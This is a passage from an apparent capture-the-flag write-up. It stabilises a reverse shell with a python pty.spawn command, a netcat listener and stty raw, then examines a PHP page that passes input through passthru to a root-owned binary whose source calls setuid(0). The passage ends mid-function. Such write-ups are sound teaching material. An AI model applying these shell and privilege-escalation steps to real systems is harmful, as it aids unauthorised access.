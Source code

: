 

Even though it's running on web, the normal PTY trick works:



    www-data@pki:~.md$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    www-data@pki:~.md$ ^Z
    [1]+  Stopped                 /tmp/nc -lnvp 4433
    www-data@web:~$ stty raw -echo; fg
    /tmp/nc -lnvp 4433
                      reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@pki:~.md$



## Shell as root

### Enumeration

Looking at the webpage, it's super simple:



    <?php
    header('X-Powered-By: PHP-FPM/7.1');
    //cn needs to be parsed!!!
    $cn=preg_replace("/[^A-Za-z0-9 ]/", '',$_GET['cn']);
    echo passthru("/usr/bin/ersatool create ".$cn);
    ?>



It scrubs the input of all characters that aren't letters, numbers or
space, and runs `/usr/bin/erasatool create $cn`, printing the results.

That binary doesn't look special at first glance:



    www-data@pki:~.md$ ls -l /usr/bin/ersatool
    -rwxr-xr-x 1 root root 22496 Jun 21 17:05 /usr/bin/ersatool



There's also a `ersatool.c` file in `/usr/src` that is likely the source
for the application.



    www-data@pki:~.md$ ls /usr/src/
    ersatool.c



Looking through the source, there are two places where it calls
`setuid`. For example, in the `filePrint` function:



    void filePrint(char *filename){
            int bfsiz=1;
            char buffer[bfsiz];
            int fd;
            ssize_t fr;
            memset(buffer,0,bfsiz);
            setuid(0); //escalating privileges to read root owned files
            if((fd=open(filename,O_RDONLY))<0){
                    printf("[!] ERR reading %s!\n",filename);
            }
            while(fr=read(fd,buffer,bfsiz)>0){
                    printf("%s",buffer);     
                    memset(buffer,0,bfsiz);  